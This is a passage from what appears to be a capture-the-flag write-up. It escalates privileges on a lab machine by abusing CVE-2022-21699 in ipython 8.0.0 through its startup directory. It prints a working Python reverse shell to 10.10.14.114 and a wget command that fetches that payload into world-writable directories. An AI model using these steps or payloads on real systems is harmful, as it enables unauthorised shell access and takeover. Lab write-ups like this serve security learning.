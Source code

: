From the output of `id` command we can see that this user is in `developer` group, we can get the credentials of database even tho there's no need for that but still the password can be re-used 

<img src="https://i.imgur.com/j0IS9v2.png"/>

Checking if the developer group is an owner of any folder or file

<img src="https://i.imgur.com/Lp1DE66.png"/>

Transferring `pspy` on the machine to see if there are any cronjobs runnning with the other user

<img src="https://i.imgur.com/Iqbai3L.png"/>


pspy shows that `ipython` as `dan_smith` 

<img src="https://i.imgur.com/7V4T2ZI.png"/>


https://github.com/ipython/ipython/security/advisories/GHSA-pq7m-3gw7-gq5x

## Privilege Escalation (dan_smith)


On looking for vulnerabilities for ipython took, there was a execution with unnecessary privileges `CVE-2022-21699` which runs the python script if it's in 
`/profile_default/startup/`

And ipython on the target machine is indeed vulnerable as it's using version 8.0.0

<img src="https://i.imgur.com/eLed623.png"/>

So first we'll host a python file having a reverse shell

```python
import socket
import os
import pty

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.114",2222))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
pty.spawn("/bin/sh")

```

By following the proof of concept we need to make the startup directory in profile_default having our python

```bash
mkdir -p -m 777 /opt/scripts_review/profile_default && mkdir -p -m 777 /opt/scripts_review/profile_default/startup && cd /opt/scripts_review/profile_default/startup && wget 10.10.14.114:3333/foo.py && chmod 777 ./foo.py
```
